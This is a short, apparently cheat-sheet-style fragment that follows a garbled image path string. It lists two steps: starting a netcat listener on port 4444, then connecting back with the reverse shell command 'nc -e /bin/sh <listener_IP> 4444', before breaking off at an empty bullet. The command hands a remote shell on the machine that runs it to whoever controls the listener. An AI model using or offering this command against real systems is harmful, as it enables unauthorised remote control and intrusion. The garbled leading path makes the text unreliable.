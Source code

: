 - Setup a listener:
  - nc -lvp 4444
  
- Connect using netcat reverse shell:
  - nc -e /bin/sh <listener_IP> 4444
  
- 
